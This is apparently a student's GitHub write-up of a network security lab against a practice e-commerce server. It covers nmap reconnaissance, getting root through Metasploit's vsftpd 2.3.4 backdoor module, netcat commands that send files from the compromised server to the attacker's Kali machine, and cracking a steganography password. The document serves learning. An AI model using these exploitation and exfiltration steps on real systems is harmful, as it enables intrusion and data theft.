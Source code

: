 # Network Security Injection Project

In this project I and other team members attacked a server using various security tools and tactics. Through this project, we learned how security breaches occur and how to defend systems and networks.

During this endeavor we used two virtual machines in a VLAN. The first was a Kali box and the second was an ecommerce server. Using Kali, we attacked the server and tested its defense mechanisms. While completing the exercise, we were to assume that the e-commerce server was not visible and therefore we did not attempt to log in.

## Injection Number 1

In injection one we were tasked with creating a security policy and introducing the team to the instructor. The security policy and team introduction we wrote can be found here: https://github.com/TristanJRogers/Network-Security/blob/main/Injection%201.docx 

## Injection Number 2

In injection two the team and I were tasked with the following. 

1. Scan the network to find find the IP address of the e-commerce server
2. Scan the e-commerce server and detect the version of the services that were running

For task 1 the team and I used NMAP to scan the entire subnet. In the picture below you will see a hit for 192.168.1.1 which was most likely a router and a hit for 192.168.1.220. We were able to identify 192.168.1.220 as the e-commerce server due to port 80 and port 3306 being open along with the url given in the scan.

![image](https://github.com/user-attachments/assets/22d9fa04-afaa-47dc-bad0-0d3e0be807d4)

For task 2 we used the command nmap -sV on the e-commerce servers IP to display the version of all services open on the e-commerce server. 

![image](https://github.com/user-attachments/assets/0e3b9e18-2af9-4d05-b8a8-42ea459a58e7)

## Injection Number 3

In injection three the team was tasked with breaking into the server using Metasploit

Using the versions of services running on the e-commerce server, we saw that the FTP service it was running had a backdoor vulnerability. We used the (unix/ftp/vsftpd_234_backdoor) exploit on the e-commerce server and were able to gain a access. 

![image](https://github.com/user-attachments/assets/1c4a3094-ca7b-4c50-9f62-5a347c6a85c9)

Finally, to prove we had root access we used the commands whoami, id, pwd, and ls. See the output below. 

![image](https://github.com/user-attachments/assets/1c4ddbf0-5961-4f41-ba46-b0869da00cff)

## Injection Number 4

In injection number four we were tasked with tasked with transferring three files in from the e-commerce server to our kali machine via Netcat. 

We used the command "nc -v 192.168.1.7 69 <insert file name>" on the ecommerce server and command nc-v -l -p69 > <insert file name> on the kali machine

E-commerce server

![image](https://github.com/user-attachments/assets/28e2c63e-8225-42e2-807c-e403169fb9f2)

Kali machine

![image](https://github.com/user-attachments/assets/d6e0b2df-d472-4d74-ab7b-aa38863df461)

For the final results you will see that in the screenshot below, the files were successfully transferred to our kali machine. 

![image](https://github.com/user-attachments/assets/0585b8fc-a4f7-4c6a-97e5-13a897a44ac0)

## Injection Number 5

In injection number five we were to find a "treasure" within the image file we transferred over to our kali machine. The instructions we were given were located in a file that was encrypted using an RSA algorithm(0x8F6568A3-pub.asc.encrypted.txt).

Here you can see where we unencrypted the file using www.pgptool.org

![image](https://github.com/user-attachments/assets/0c62573f-f7c2-43dc-a9b2-07d3b7db45a2)

As you can see, the instructions indicated that the treasure was hidden using steganography

We tried to use steghide and a password list to find the hidden treasure but it failed. We then began to research and found Stegseek. We then used stegseek with a password list and were finally able to find the hidden treasure: a (fake) credit card number.

![image](https://github.com/user-attachments/assets/a108aa18-a9a1-4a7d-a72d-c8b1f1201d70)

![image](https://github.com/user-attachments/assets/8690dfe1-aac0-4504-9691-3debc9f54f09)

![image](https://github.com/user-attachments/assets/daa6707a-d087-4c55-b918-34b2e3328530)

The full injection five write up can be found here:

## Tools/Software Used

www.pgptool.org
Steghide
Stegseek
Metasploit
Netcat
NMAP
Kali Linux
Steganography
RSA Encrption




















